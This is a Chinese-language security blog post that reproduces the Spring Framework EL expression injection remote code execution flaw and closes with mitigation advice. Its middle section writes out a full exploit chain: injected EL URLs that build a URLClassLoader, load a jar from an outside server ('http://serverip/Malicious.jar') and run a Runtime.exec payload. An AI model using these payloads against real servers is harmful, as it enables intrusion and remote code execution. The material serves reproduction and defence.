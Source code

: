 ```yaml
---
layout: post
title: "Spring框架远程代码执行"
date: 2014-07-26 00:20:04 +0800
author: tang3
comments: true
categories: "技术"
tags: [Spring,Expression Language] 
---
```


### 0x01 概述

2012年12月国外研究者DanAmodio发表《Remote Code with Expression Language Injection》一文，指出Spring框架存在潜在的代码注入风险。在2013年1月，国内安全研究人员在微博上分享了该篇文章的中文翻译内容。

文章中指出Spring框架3.0.6以下版本，在一定的条件下，可以被攻击者利用，执行任意的java代码，从而威胁系统的安全性。而且这些存在潜在威胁的版本，在全球范围中已经下载超过131.4万，由此可见此问题影响极为广泛。

我在这一周中针对文章中所提到的方法，进行了重现。本篇文章将向各位描述这个问题被触发所需要的条件，实现利用的细节，以及相关的一些防护方法。

<!-- more -->

### 0x02 环境搭建

先说下简单的测试代码吧，按照文章中所说的，在搭建好的Spring中添加一个jsp文件，其中包含如下代码：

```java
<%@page contentType="text/html;charset=GBK"%> 
<%@ taglib uri="/spring" prefix="spring"  %>
<html>   
<head><title>利用Spring输出HelloWorld</title></head>   
<%  
String str = (String)request.getAttribute("helloWorld");  
%> 
<spring:message text="${param['message']}" code="${param['foo']}"></spring:message>
<body>
<font size=’22’><%=str%></font> 
</body>   
</html>	
```

红色代码部分为测试的jsp代码。Spring的message标签的作用是，根据code取得消息资源，如果指定的code没有找到任何对应的消息资源，则采用text定义的内容。这里有一个比较奇怪的地方，文章中说在code属性处添加$param[‘message’]代码，通过访问http://target/file? message=${applicationScope}会在页面中打印出服务器环境的相关配置信息。但是，这个地方无论我用什么办法，都无法让它里面的内容显示出来。所以我不得不将测试的内容放到了text属性中（这两个属性都可以执行EL表达式）。

这个问题虽然有些摸不到头脑，但还是可以接受的，毕竟还是有地方让我做测试。在测试后面的内容才是我噩梦真正的开始！

在一开始测试时，我并没有按照作者所提供的Glassfish3.1.2.2+Spring3.0.6的环境测试，而是搭建Tomcat6.0+Spring3.0.2的环境。当我在这个环境中，想要通过java.lang.String类调用java方法时出现了问题，提示EL表达式错误。访问http://target/file? message= ${param.foo.replaceAll("P","Q")}&foo=PPPPP，错误显示如下图：

![1](/assets/images/2014-07/2014-07-25-01.png)

纠结了一天多的时间，各种搜索，只能搜索到各大网站对这篇文章的转载，没有一个具体分析的文章。在我就要崩溃的时候，发现了这样一句话“After some research, I learned that the EL 2.2 added support for method invocation.”。马上反应过来，这个特性应该是EL2.2新添加的，而Tomcat6.x是支持EL2.1的，然后果断的换成了支持EL2.2的Tomcat7.0。依旧访问那个url，结果如下图：

![2](/assets/images/2014-07/2014-07-25-02.png)

什么都没有！到底执行了没:(。又是崩溃了大半天，最后不得不乖乖的按照文章中环境进行搭建。这次终于成功了，不容易啊！

![3](/assets/images/2014-07/2014-07-25-03.png)

### 0x03 代码执行技术细节

通过上一章最后测试的结果，我们不难看出，在一定的环境下，我们是可以通过EL表达式来调用java代码的。但是由于限制条件，我们能够做的事情也是很有限的。不过，DanAmodio和他的朋友在不断的努力下，终于找到了一个，可以使它执行任意代码的方法。

他们想到通过java的反射机制，来动态的加载一些类和方法。但是，很多的强大的类（如：Runtime）的newinstance方法是不允许被调用的，没有办法对它们进行初始化，也就是说，不能直接的调用这些强大的类和方法。

后来，他们发现了URLClassLoader这个类提供了newinstance这个方法。这个方法是可以动态加载远程代码的类，这样新的利用方法就出炉了！
首先在我们另一台服务器上放置编译如下代码的jar文件：

```java
public class Malicious {
    public Malicious() {
	   try {
                  java.lang.Runtime.getRuntime().exec("calc.exe"); //Win
           } catch (Exception e) {
           }
    }
}
```

然后我们通过EL表达式创建一个数组（URLClassLoader的构造函数需要URL数组作为参数），存放在session中，url为http://target/file? message=${pageContext.request.getSession().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}。

下一步我们通过URI提供的create方法，可以创建一个URL实例，我们把这个实例保存在刚刚创建的数组中，url为http://target/file?message= ${pageContext.request.getSession().getAttribute("arr").add(pageContext.getServletContext().getResource("/").toURI().create("http://serverip/Malicious.jar").toURL())}。

Malicious.jar文件就是我们之前保存在另一台服务器中的jar文件。EL表达式中的PageContext类中getClassLoader方法得到的对象的父类便是URLClassLoader，所以，我们便可以调用newInstance方法了，url为http://target/file?message= ${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}。

来看下效果图吧，嘿嘿

![4](/assets/images/2014-07/2014-07-25-03.png)

### 0x04 总结

1. 这个问题利用的环境，在目前看来是只有Glassfish3.1.2.2+Spring3.0.6及其之前版本环境可以实现。从理论上来看应该只要服务端支持EL2.2就可以实现，但是不知道什么原因Tomcat7.0虽然支持EL2.2，但是却没有得到我们预想中的效果。

2. 在测试过程中，遇到了一个比较低级的错误，就是编译jar 的java版本与服务端的java版本不符，导致代码无法成功执行。

3. 对于这种问题的防护，我们给出的建议是将Spring升级到3.1以上版本，因为这些新版本默认是将jsp的EL表达式支持关闭的。如果不能升级到3.0.6以上版本，请在web.xml中设置springJspExpressionSupport的参数为false，如下示例：

```xml
<context-param>
<description>Spring Expression Language Support</description>
<param-name>springJspExpressionSupport</param-name>
<param-value>false</param-value>
</context-param>
```

4. 另外即使你使用了Spring3.1以上版本，也要留心这个问题，因为它只是默认关闭了EL表达式的支持，而并不是修补了这个问题，不小心的配置很有可能会使这个问题死灰复燃的。

5. 本篇文章中虽然没有在Tomcat环境中测试成功，但并不代码这个问题不会在这种环境中出现，我们会继续跟踪这个问题。

